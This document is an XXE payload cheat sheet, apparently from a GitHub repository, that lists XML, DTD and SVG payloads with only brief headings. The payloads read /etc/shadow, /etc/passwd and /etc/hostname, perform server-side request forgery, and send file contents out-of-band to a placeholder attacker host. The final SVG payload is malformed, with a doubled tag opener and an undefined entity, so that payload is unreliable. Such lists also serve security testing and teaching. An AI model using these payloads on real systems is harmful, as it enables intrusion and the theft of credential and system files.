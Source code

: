XXE: Basic XML Example

<?xml version="1.0" encoding="utf-8"?>
	<userInfo>
	  <firstName>Rahul</firstName>
  	  <lastName>Jain</lastName>
 	</userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Entity Example

<?xml version="1.0" encoding="utf-8"?>

	<!DOCTYPE replace [
	<!ENTITY test "Doe"> ]> 
	 <userInfo>
  	   <firstName>Rahul</firstName>
	   <lastName>&test;</lastName>
 	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: File Disclosure Example 

<?xml version="1.0" encoding="utf-8"?>
	
	<!DOCTYPE replace [
	 <!ENTITY test SYSTEM "file:///etc/shadow"> ]>
	 <userInfo>
	   <firstName>Rahul</firstName>
 	   <lastName>&test;</lastName>
	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Local File Inclusion Example

<?xml version="1.0" encoding="utf-8"?>
 	<!DOCTYPE foo [  
	<!ELEMENT foo (#ANY)>
	<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
	<foo>&xxe;</foo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Server Side Request Forgery Example

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;
	%int;
	%trick; ]>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Payload Using DTD File

	<!ENTITY % a SYSTEM 'file:///etc/passwd'>
	<!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'your website/?cookie=%a;'> " > 
	%b;
	%c;

(&#x25),(&#37) Are the  Hex and decimal value of (%)

To Call This File   

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Exploit Using SVG Image 

	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Exploit Using SVG Image (Out Of Band Method)

	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <<!ENTITY % a SYSTEM "file:///etc/hostname" >>  <!ENTITY b SYSTEM "ur ip/x=?%a; " > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

----------------------------------------------------------------------------------------------------------------------------------------------------------
